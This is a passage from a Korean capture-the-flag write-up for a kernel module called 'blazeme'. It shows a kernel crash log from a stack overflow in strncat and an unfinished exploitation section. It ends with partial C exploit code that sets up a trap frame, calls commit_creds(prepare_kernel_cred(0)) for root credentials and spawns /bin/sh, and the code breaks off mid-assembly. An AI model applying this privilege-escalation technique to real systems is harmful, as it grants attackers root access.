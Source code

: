 ```sh
RIP: 0010:strncat+0x37/0x50
RSP: 0018:ffffc9000015fc30 EFLAGS: 00000206
RAX: ffffc9000015fc40 RBX: 0000000000000040 RCX: ffffc90000160001
RDX: ffffc90000161c86 RSI: ffff88000295437b RDI: ffffc9000015fc40
RBP: ffffc9000015fc30 R08: 0000000000000041 R09: 4141414141414141
R10: 4141414141414141 R11: 4141414141414141 R12: 00007ffeeccec270
R13: 00007ffeeccec270 R14: 0000000000000000 R15: ffffc9000015ff20
FS:  00000000006bd880(0000) GS:ffff880003c00000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: ffffc90000160000 CR3: 00000000029dc000 CR4: 00000000000006f0
Call Trace:
 blazeme_write+0x124/0x140 [blazeme]
Code: 80 3f 00 48 89 f9 74 09 48 83 c1 01 80 39 00 75 f7 48 01 ca eb 05 48 39 d1 74 18 48 83 c6 01 44 0f b6 46 ff 48 83 c1 01 45 84 c0 <44> 88 41 ff 75 e5 5d c3 c6 01 00 5d c3 66 90 66 2e 0f 1f 84 00
RIP: strncat+0x37/0x50 RSP: ffffc9000015fc30
---[ end trace 2c70b86c00933abe ]---
````

strncat 위치에서 kernel stack overflow가 떴다.


# Exploitation

Kernel Stack BOF를 통해 rip를 제어할 수 있게 되었으므로

## 추가중


**Final Exploit Code**
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <sys/mman.h>

struct TrapFrame{
	void* rip;
	unsigned long user_cs;
	unsigned long user_rflags;
	void* rsp;
	unsigned long user_ss;
} __attribute__((packed));

void *(*prepare_kernel_cred)(void *);
int (*commit_creds)(void *);
struct TrapFrame tf;

// commit cred
static void lpe() {commit_creds(prepare_kernel_cred(0));}

// get shell
static void shell() {
	system("/bin/sh");
	exit(0);
}

static void save() {
	asm(
		"xor %rax, %rax;"
		"mov %cs, %ax;"
		"pushq %rax; popq tf+8;"
		"pushfq; popq tf+16;"
```

[^fops]: <https://chardoc.tistory.com/8>
[^fops_exploit]: <https://procdiaru.tistory.com/82>
[^slab_allocator]: <http://jake.dothome.co.kr/slub/>
[^copy_to_user]: <https://blog.naver.com/PostView.nhn?blogId=ryutuna&logNo=100184443085&proxyReferer=https%3A%2F%2Fwww.google.com%2F>